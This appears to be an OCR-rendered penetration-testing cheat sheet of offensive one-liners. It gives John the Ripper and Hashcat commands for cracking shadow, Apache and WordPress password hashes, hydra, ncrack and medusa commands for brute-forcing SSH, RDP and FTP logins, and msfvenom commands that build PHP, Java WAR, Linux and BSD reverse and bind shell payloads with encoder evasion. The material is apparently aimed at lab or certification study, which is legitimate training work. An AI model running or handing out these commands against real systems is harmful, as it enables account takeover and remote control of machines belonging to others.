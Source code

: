 ## Brute force

### John the Ripper shadow file

- * $ unshadow passwd shadow > unshadow.db $ john unshadow.db

### * Hashcat SHA512 $6$ shadow file hashcat -m 1800 -a 0 hash.txt rockyou.txt --username #Hashcat MD5 $1$ shadow file hashcat -m 500 -a 0 hash.txt rockyou.txt --usernameHashcat MD5 Apache webdav file hashcat -m 1600 -a 0 hash.txt rockyou.txtHashcat SHA1 hashcat -m 100 -a 0 hash.txt rockyou.txt --forceHashcat Wordpress hashcat -m 400 -a 0 --remove hash.txt rockyou.txt

## RDP user with password list

### ncrack -vv --user offsec -P passwords rdp://10.10.10.10

## SSH user with password list

### hydra -l user -P pass.txt -t 10 10.10.10.10 ssh -s 22

## FTP user with password list

### medusa -h 10.10.10.10 -u user -P passwords.txt -M ftp

## MSFVenom Payloads

### # PHP reverse shell

- * msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php

### # Java WAR reverse shell

- * msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war

### # Linux bind shell

- * msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai

### # Linux FreeBSD reverse shell

- * msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf

### # Linux C reverse shell

- * msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c
